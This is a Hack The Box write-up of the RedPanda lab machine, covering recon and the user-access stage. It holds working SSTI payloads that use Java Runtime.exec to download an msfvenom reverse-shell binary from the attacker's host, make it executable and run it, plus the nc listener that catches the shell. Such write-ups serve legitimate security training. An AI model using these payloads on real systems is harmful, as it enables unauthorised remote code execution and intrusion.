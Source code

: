 # RedPanda HTB Writeup
## User 
Begin with a basic port scan:

```
# Nmap 7.92 scan initiated Fri Oct  7 12:43:05 2022 as: nmap -A -T4 -p- -sC -sC -oA nmap.results 10.10.11.170
Nmap scan report for 10.10.11.170
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 07 Oct 2022 19:44:37 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=10/7%Time=63408191%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Fri,\x2007\x20Oct\x20
SF:2022\x2019:44:37\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Fr
SF:i,\x2007\x20Oct\x202022\x2019:44:37\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Fri,\x2007\x20Oct\x202022\x2019:44:37\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  7 12:44:32 2022 -- 1 IP address (1 host up) scanned in 86.75 seconds

```
Here we can see that ports 22 (SSH) and 8080 (Web Service, says http proxy) are open and running services. We can visit the web service/site and see a home page with an input labeled "search":
![Site Home](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/home_page.png)
When we supply an empty search query, we see a result for a "panda" named Greg, and the page is even so kind as to warn us of his "injection attacks"... interesting...
![Empty Search](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/empty_search.png)
Next we can run whatweb to see what type of tech is running on this web service:
```
$ whatweb http://10.10.11.170:8080
http://redpanda.htb:8080 [200 OK] Content-Language[en-US], Country[RESERVED][ZZ], HTML5, IP[10.10.11.170], Title[Red Panda Search | Made with Spring Boot]
```
We see that it's made with SpringBoot, but that was pretty obvious from the nmap scan. Let's do some more recon and fuzz the site to check for active directories:
```
$ wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://10.10.11.170:8080/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.170:8080/FUZZ
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000313:   500        0 L      1 W        86 Ch       "error"                                                                                     
000000717:   405        0 L      3 W        117 Ch      "search"                                                                                    
000000792:   200        32 L     97 W       987 Ch      "stats"                                                                                     

Total time: 0
Processed Requests: 951
Filtered Requests: 948
Requests/sec.: 0
```
Let's visit stats and check it out:

![Stats](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/stats.png)

We see that there are stats for two users, one of which has an export function to generate reports for users.... maybe an endpoint. 


![Export](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/user_stats_export.gif)


After further digging around with the search utility, we find that it may be vulnerable to an SSTI injection. This will allow us to inject a malicous payload into a template, possible allowing us to generate remote code execution on the server side. We test that theory by entering *{7+7} to see a result of 14 in the search query:

![SSTI check](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/ssti_check.gif)

This means that, because templates are use to generate web pages by combining fixed templates with data, we can inject template directives into this search as opposed to getting interpreted as data, which will allow us to manipulate the template engine and control the server.

We can use a payload provided by [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---retrieve-etcpasswd) SSTI injection cheatsheet, in order to Retrieve /etc/passwd as we know this is indeed a Java application because it is running SpringBoot

![etc_passwd](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/etc_passwd.png)

Now, let's go about generating a reverse shell. First I create a little elf helper for the reverse shell on the attacking machine:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.xxx.xxx LPORT=443 -f elf > ks.elf #Must supply your IP address (VPN from HTB) for the LHOST parameter
```
Okay so now we have this ks.elf exececutable somewhere on our attaching machine, so we can host an http server in this same directory to access this file from the SSTI:
```
$ python -m http.server 80 #Make sure this is where your elf binary is
```
Now we set up a netcat listener on our attacking machine to pick up the reverse shell when it gets sent from the executable through our SSTI commands. 

```
$ nc -lvnp 443
```
Then we can send these three commands (through the search bar on the webpage) one at a time to retrieve the msfvenom executable, modify its permissions, and execute it. At which point, we should retrive a reverse shell in our netcat session.


```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.X.X/ks.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./ks.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./ks.elf")}
```

Here is an example of retrieving the shell in real time.


![RCE](https://github.com/KBSummers/HackTheBoxWriteups/blob/main/machines/RedPanda/images/RCE.gif)

## Priv Esc
